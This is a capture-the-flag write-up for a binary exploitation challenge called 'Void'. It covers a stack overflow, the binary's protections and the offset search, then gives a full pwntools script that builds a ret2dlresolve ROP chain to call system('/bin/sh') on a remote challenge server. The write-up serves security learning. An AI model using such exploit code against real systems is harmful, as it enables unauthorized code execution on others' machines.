 # Void
**Date**: 2025-05-18
**Category**: Pwn

## Table of Contents
- [Summary](#summary)
- [Reconnaissance & Enumeration](#reconnaissance--enumeration)
- [Exploitation](#exploitation)
- [Takeaways & Lessons Learned](#takeaways--lessons-learned)

---

## Summary
A pwn challenge called void that doesn’t respond locally forces us into a reverse-shell exploit using a ret2dlresolve ROP chain against a non-PIE, NX-enabled binary with partial RELRO and no canary.

---

## Reconnaissance & Enumeration
Files:
    void (binary)
    glibc folder (custom libc & loader)
    flag.txt (dummy)

Behavior:
    ./void and nc host port yield no output—“void” lives up to its name.
    Disassembly reveals main() immediately calls vuln().

Vulnerability:
    In vuln(), a 64-byte stack buffer is overrun by read(fd=0, buf, 200).

Protections (checksec):
    Partial RELRO → GOT partly writable
    No canary → stack overflow OK
    NX enabled → no shellcode on stack
    No PIE → fixed addresses for ROP

---

## Exploitation
1. Offset discovery
    Generate a 1 kB cyclic pattern in GDB
    Crash and inspect rsp vs. rbp → offset = 72 bytes

2. Craft ret2dlresolve payload
    Target symbol: system("/bin/sh")
    Build ROP:


```python
from pwn import *

void   = ELF("void")
libc   = ELF("glibc/libc.so.6")
ld     = ELF("glibc/ld-linux-x86-64.so.2")
context.binary = void.path

rop      = ROP(void)
resolver = Ret2dlresolvePayload(void, symbol="system", args=["/bin/sh"])
rop.read(0, resolver.data_addr)
rop.raw(rop.ret[0])
rop.ret2dlresolve(resolver)
chain = rop.chain()

p = remote("83.136.250.158", 39848)
p.sendline(b"A"*72 + chain)
p.sendline(resolver.payload)
p.interactive()

```
3. 
Now it was time to execute. I ran the script and obtained the reverse shell on remote, and did simple lookups to find flag.txt

## Takeaways & Lessons Learned
- Dynamic linking hacks: ret2dlresolve lets you call libc functions even with NX+partial RELRO.
- ROP basics: chain gadgets to call read(), pivot stack into your fake resolver structures, then invoke system().
- Binary protections matter: knowing which defenses are present (or absent) guides your exploit choice.
- Offset finding: GDB’s cyclic patterns remain the quickest way to pinpoint overflow lengths.